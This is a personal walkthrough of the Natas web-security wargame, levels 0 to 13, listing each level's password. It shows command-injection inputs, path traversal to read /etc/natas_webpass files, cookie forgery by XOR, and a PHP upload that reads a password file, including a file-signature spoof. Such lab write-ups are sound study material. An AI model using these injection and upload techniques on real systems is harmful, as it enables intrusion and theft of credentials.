 # Natas
This repository holds my solutions to the wargame natas.

## Level 0
Looking in the source we can see the comment:
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Level 1
We can use the shortcut 'CTRL+U' to access the source and find the comment:
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2
Looking in the source we see that a picture called pixels is stored in the directory files. Going to http://natas2.natas.labs.overthewire.org/files/ we can see the file users.txt which holds the password.

Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## Level 3
Looking in the source we can see the comment: `<!-- No more information leaks!! Not even Google will find it this time... -->`. The only way google won't find it is if it's path was stored in the robots.txt file. Visiting it, then going to http://natas3.natas.labs.overthewire.org/s3cr3t/ results in the password.

Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4
We can use a curl command to change the http referer. Running `curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php` results in the password.

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5
Changing the cookie loggedin from 0 to 1 results in the password.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6
Looking at the php in the source after clicking the view source button we can see that the secret is stored in http://natas6.natas.labs.overthewire.org/includes/secret.inc. Visiting the url and submitting the secret results in the password.

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## Level 7
The site reads a file that we can control the name of. Looking in the source we can see that the password is stored in `/etc/natas_webpass/natas8`. Going to the url `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` results in the password.

Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Level 8
The secret has been base64 encoded, reversed, then encoded in hex. We can use the following line of python to decode it `import base64; base64.b64decode(bytearray.fromhex("3d3d516343746d4d6d6c315669563362").decode()[::-1])` and get the secret `oubWYf2kBq`. Submitting the secret we get the password.

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## Level 9
We can inject a linux command using `; COMMAND HERE ;`. Inputting `; cat /etc/natas_webpass/natas10;` results in the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## Level 10
We can use the regular expression `.*` to match anything. If we use it then add the name of the file containing the password, then comment the rest of the expression we get the password. We can use this command to do that: `.* /etc/natas_webpass/natas11 #`

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## Level 11
The first thing we have to do is create a script that XORs two strings.
```
def xor(str1, str2):
	assert(len(str1)==len(str2))
	return ''.join([chr(ord(str1[i])^ord(str2[i])) for i in range(len(str1))])
```
The json encoded data should look like this: `{"showpassword":"no","bgcolor":"#ffffff"}`. Due to the easy reversibility of XOR we can find the key by XORing the string above and the cookie. Running: `xor(base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=").decode(), "{\"showpassword\":\"no\",\"bgcolor\":\"#ffffff\"}")` gives us the key, `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`. 

Now we can XOR the json data we need to solve the challenge, `{"showpassword":"yes","bgcolor":"#ffffff"}`, with the key to get the cookie needed to get the password. We have to extend the key to make it equal in size to the json data.
```
>>> x = xor("qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw", "{\"showpassword\":\"yes\",\"bgcolor\":\"#ffffff\"}")
>>> base64.b64encode(bytes(x, 'utf-8'))
b'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```
Changing the cookie data to `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK` results in the password.

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12
Thank you, https://www.abatchy.com/2016/11/natas-level-12 on this problem for so long. (Note: this is the only hint I've yet to use)

The key insight is to realize that the file you inject can be run by the server. Looking at the code we see that the file type of the injected file is stored in the variable filename. Changing this from a .jpg to a .php allows us to inject php code. We can inject the following code to read the password stored in natas13
```
<?php
$file = file_get_contents("/etc/natas_webpass/natas13");
echo $file;
?>
```
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Level 13
This is the same problem as before except now we have to pass an extra if statement that checks if our file is an image. It checks this using the function exif_imagetype. A quick trip to the [documentation](https://www.php.net/manual/en/function.exif-imagetype.php) tells us that this is done by checking the file signature. This means we can easily bypass the check by modifing the file signature in a hex editor. Changing the first four bytes to FF D8 FF DB, shifting our code four bytes, and changning the code above to read from the file natas14 results in the password. All we have to do after our modifications to the file is change the variable filename from a .jpg to a .php file and submit.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
